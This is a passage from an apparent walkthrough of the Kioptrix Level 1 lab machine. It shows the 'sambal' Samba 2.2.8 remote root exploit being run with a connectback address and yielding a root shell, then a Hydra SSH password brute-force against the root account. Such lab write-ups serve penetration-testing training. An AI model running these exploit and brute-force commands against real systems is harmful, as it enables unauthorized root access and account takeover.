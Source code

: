 ```bash

./sambal
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./sambal [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode


./sambal -b 0 -v -c 192.168.88.128 192.168.88.129
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)

```

### Bruteforce SSH

#### Hydra

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8
```

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-02 19:23:53
[DATA] max 8 tasks per 1 server, overall 8 tasks, 1009 login tries (l:1/p:1009), ~127 tries per task
[DATA] attacking ssh://192.168.88.129:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://root@192.168.88.129:22
[INFO] Successful, password authentication is supported by ssh://192.168.88.129:22
[STATUS] attack finished for 192.168.88.129 (waiting for children to complete tests)
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-01-02 19:40:28
```
